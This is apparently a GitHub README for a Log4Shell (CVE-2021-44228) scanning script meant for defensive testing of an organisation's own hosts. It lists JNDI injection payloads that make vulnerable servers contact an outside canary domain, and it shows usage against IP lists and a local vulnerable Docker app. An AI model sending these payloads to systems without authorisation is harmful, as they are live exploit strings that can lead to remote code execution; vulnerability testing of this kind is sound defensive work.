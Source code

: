 # log4j_CVE-2021-44228_tester
Test for the log4j vulnerability ( CVE-2021-44228 ) across your external footprint

## Example Use
```
./log4j_CVE-2021-44228_tester.sh <INPUT_FILE> <CANARY_DOMAIN>
```
## Payloads
```
Payloads:
${jndi:ldap://<canary_domain>/a}
${jndi:ldaps://<canary_domain>/a}
${jndi:rmi://<canary_domain>/a}
${jndi:dns://<canary_domain>/a}
${jndi:corba://<canary_domain>/a}
${jndi:iiop://<canary_domain>/a}
${jndi:nis://<canary_domain>/a}
${jndi:nds://<canary_domain>/a}
```
## Methods
HTTP GET and HTTP POST are called on TCP 80/443 for each ip/domain provided in the input file

## Requirements
You will need:
1. An inputfile with a list of IP addresses/domains (one per line)
2. A Canary Token (see below)


## Get a Canary Domain 
1. Browse to https://canarytokens.org/generate#
2. Selection Option "DNS"
3. Input Email Address
4. Input Comment
5. Hit "Create my Canary Token"

<img width="973" alt="image" src="https://user-images.githubusercontent.com/774940/145664156-fee98504-0a18-427c-8213-5f3818864a9a.png">

## False Positives
If you use egress SSL decryption + inspection this script may trigger false positives (as your IDS may before lookups on the canary token.. thus triggering it).

If this is the case then you are better off running it from a cloud instance that is not being inspected.

## Local Testing
Spin up a docker image of a vulnerable server:
```
docker run --name vulnerable-app -p 555:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
 
Use the script to test locally:
```
echo "localhost:555" > ips.txt
./log4j_CVE-2021-44228_tester.sh ips.txt <canary_domain>
```




